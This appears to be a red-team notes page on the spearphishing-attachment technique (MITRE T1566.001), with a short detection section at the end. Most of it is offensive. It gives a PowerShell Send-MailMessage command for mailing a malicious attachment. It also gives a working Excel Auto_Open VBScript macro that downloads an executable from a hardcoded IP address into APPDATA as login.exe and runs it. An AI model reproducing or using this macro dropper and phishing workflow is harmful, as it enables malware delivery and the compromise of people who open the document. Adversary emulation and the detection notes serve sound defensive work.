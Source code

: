 # [Spearfishing Attachment](https://attack.mitre.org/techniques/T1566/001/)

## Exploit syntax:

* Example: Send-MailMessage -SmtpServer <smtp server ip> -Port 25 -to <enter email here> -From <enter email here> -Priority High -Subject "enter subject here" -Body "enter body of message here" -Attachment “<absolute path of resume file>” (file can be drag and dropped at the end of the command to autofill file path) OR Email through Outlook and attach malicious file to email

* Excel Example:
    * Use the SendPhishing powershell scripts as a template for sending emails over powershell
    * Use the script below and insert it into the macro list of an Excel document.
    ```vbscript
    Sub Auto_Open()

    Dim com
    Set com = CreateObject("WScript.Shell")
    com.Run "powershell.exe -c iwr -uri ""http://64.132.36.76/pointy"" -OutFile ""$env:APPDATA\login.exe"""
    com.Run "powershell.exe -c start-sleep -seconds 1;start-process ""$env:APPDATA\login.exe"""
    Set com = Nothing

    End Sub
    ```
    * Send the phishing email with this attachment. Make sure it's saved as a .xlsm file.


## Resource: https://www.slipstick.com/outlook/securetemp-files-folder/


## Detection Techniques

* Search for files within the Content.Outlook folder. Potentially look for files created following an email.
    * file.path: *Content.Outlook*
    * Look in the mail log at the MIME type for the file of the email.
